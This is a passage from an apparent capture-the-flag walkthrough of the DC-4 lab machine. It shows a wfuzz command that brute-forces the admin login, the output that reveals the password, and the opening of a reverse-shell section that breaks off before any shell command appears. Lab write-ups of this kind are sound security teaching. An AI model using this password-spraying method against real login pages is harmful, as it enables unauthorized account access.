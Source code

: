 ~~~
kali@kali:/data/DC_4/files$ wfuzz -z file,pass.txt -d "username=admin&password=FUZZ" --hw 17 http://dc-4/login.php

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://dc-4/login.php
Total requests: 917

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                          
===================================================================

000000027:   302        15 L     28 W     367 Ch      "happy"                                                                          

Total time: 0.937141
Processed Requests: 917
Filtered Requests: 916
Requests/sec.: 978.5078
~~~

# Reverse shell

## Login as `admin`

Once authenticated with `admin:happy`, we see a page with a link to "System Tools > Command". Click on the link to be redirected to a form with 3 commands:

![commands.png](files/commands.png)

